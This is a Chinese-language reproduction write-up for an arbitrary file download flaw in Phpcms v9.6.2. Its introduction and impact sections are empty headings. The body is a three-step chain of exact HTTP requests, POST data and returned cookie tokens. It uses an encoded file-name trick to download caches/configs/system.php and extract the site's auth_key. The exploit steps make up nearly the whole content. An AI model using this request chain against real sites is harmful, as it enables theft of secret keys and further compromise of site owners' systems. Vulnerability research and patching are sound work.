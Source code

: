 Phpcms v9.6.2 任意文件下载
==========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

##### 第一步:进行如下请求获得YDVIB\_siteid的值。

请求：

    [GET]http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=wap&c=index&a=init&siteid=1

获得：

    [cookie]YDVIB_siteid:75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst

##### 第二步:在\[POST DATA\] 中的userid\_flash参数的值设置为，第一步请求得到的YDVIB\_siteid参数的值，并进行如下请求。

请求：

    [GET] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=attachment&c=attachments&a=swfupload_json&src=a%26i=1%26m=1%26catid=1%26f=./caches/configs/system.ph%253ep%2581%26modelid=1%26d=1&aid=1

    [POST DATA] userid_flash=75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst

获得：

    [cookie] YDVIB_att_json:ea6fUlmiupVPoK2udMAztI7dpqUURRW1plemEGmRhGPocAvwWbcMk3BARFHzxLI4NJrV1IJQ2PaHeec790iDdhRJ9dJbhEKamgM55SwKR-F3fFmmWDOVuHnyiWg9kyMzQ2l9D_cRPQmM7P9e7ZYrESNQwjMOytrFTIhY4SFmK2Vjc3GS3g

##### 第三步:将GET请求中的a\_k参数的值设置为第二步请求获得的YDVIB\_att\_json参数的值，并进行如下请求。

请求：

    [get] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=init&a_k=41f4VsAhLvN8-4L1ntgSsuga4BrvYA5zcDo2bjiYB7RI98Qzj5D5k8dqqBfo7cUNwF3TGhz1SH-vPs3lIIQJYwHeF_u2b3QVfD2HIO3Gay68TAtz2rqYhX8XIeznWrTtOI24418KZUoTEAfnY4kZNtIajW-bqHRV1djqmEc1hSAwkIYWA9CPrw

获得：

    http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM

##### 最后点击"点击下载"的按钮进行如下请求，便可以下载/caches/configs/system.php文件，得到里面的'auth\_key'

    http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM

![](./.resource/Phpcmsv9.6.2任意文件下载/media/rId28.png)

参考链接
--------

> <https://www.freebuf.com/column/158352.html>
